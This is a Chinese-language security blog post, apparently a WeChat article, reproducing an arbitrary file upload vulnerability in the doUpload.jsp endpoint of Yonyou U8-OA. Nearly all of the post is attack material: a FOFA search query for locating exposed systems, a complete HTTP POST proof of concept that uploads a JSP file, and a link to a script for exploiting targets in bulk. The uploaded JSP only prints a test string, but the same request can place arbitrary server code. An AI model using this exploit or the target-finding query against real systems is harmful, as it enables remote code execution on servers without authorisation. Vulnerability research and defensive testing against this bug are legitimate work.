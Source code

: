#  漏洞复现-用友U8-OA协同工作系统doUpload.jsp任意文件上传（附poc   
Y1_K1NG  Yi安全   2024-02-24 14:49  
  
**由于微信公众号推送机制改变了，快来星标不再迷路，谢谢大家！**  
  
****  
免责声明  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
文  
章中敏感信息均  
已做多层打马处理。  
传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行  
负责。  
  
  
  
  
  
 用友U8   
  
## 一：漏洞描述  
  
         
用友U8-OA协同工作系统doUpload.jsp接口  
## 二：网络空间测绘查询  
  
fofa  
```
title="用友U8-OA"
```  
  
‍## 三：漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SiciaJiayvKbnEeJicYfmTjuibX7a0HNhNaA7FYsw07TUiaIt0IwrsTzVt4OVoSmfYgAMSyJW3l16Zxct8rMqHneSU8Q/640?wx_fmt=png&from=appmsg "")  
  
****  
poc****  
```
POST /yyoa/portal/tools/doUpload.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 219
Content-Type: multipart/form-data; boundary=7b1db34fff56ef636e9a5cebcd6c9a75

--7b1db34fff56ef636e9a5cebcd6c9a75
Content-Disposition: form-data; name="iconFile"; filename="info.jsp"
Content-Type: application/octet-stream

<% out.println("tteesstt1"); %>
--7b1db34fff56ef636e9a5cebcd6c9a75--
```  
  
****## 四：批量脚本获取  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SiciaJiayvKbnEeJicYfmTjuibX7a0HNhNaA7oHCT2Fn0keNEaqyU4fDBk7HgPicUH7ADiasSSCWR2LguyNZothR0PLAg/640?wx_fmt=png&from=appmsg "")  
```
https://github.com/Y1-K1NG/poc_exp/tree/main/20240224%E7%94%A8%E5%8F%8BU8-OA%E5%8D%8F%E5%90%8C%E5%B7%A5%E4%BD%9C%E7%B3%BB%E7%BB%9FdoUpload.jsp%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0
```  
  
  
‍  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
  
由于传播、利用本公众号Yi安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Yi安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
好文分享收藏赞一下最美点在看哦  
  
  
  
